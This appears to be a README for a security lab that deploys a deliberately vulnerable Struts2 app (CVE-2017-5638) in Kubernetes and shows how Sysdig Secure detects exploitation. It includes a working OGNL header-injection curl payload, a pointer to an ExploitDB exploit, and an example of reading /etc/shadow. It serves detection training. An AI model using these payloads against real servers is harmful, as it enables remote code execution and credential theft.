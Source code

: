 # Vulnerable Struts2 (S2-045) Lab 🧪 🔬 

In this lab, you will deploy a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application 🤖 

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   `curl -v http://localhost:30080`

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit 🦠 

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExploitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection** 🔍 

A clear distinction must be made between the curl payload that stays within Java’s memory (e.g., returning 1337 in a custom header) and one that spawns a system-level process (e.g., cat /etc/shadow).

### Header Injection 
The payload executes in Struts memory, returning **1337** via the vulhub **header**.
No new process, no file access, and no unusual network connections occur.
Sysdig (or any runtime analysis) does not flag this as malicious because it sees no suspicious system calls.


### Python Script (Spawning a Process)
The payload calls `cat /etc/shadow`, causing Java to execute a new child process.
Sysdig sees `/bin/cat /etc/shadow` and raises a **Medium** severity alert because it recognizes unexpected process execution attemtpting to access a sensitive file.

### Verify in Sysdig Secure:
Go to **Threats → Sysdig Runtime Notable Events**.
Find the corresponding Event ID (e.g., 18191e49f34866df273474732a500c25).
In summary, a simple header injection won’t trigger Sysdig, but any payload that spawns a process or accesses sensitive resources will. This showcases early detection and the need for refined rulesets within your tools!




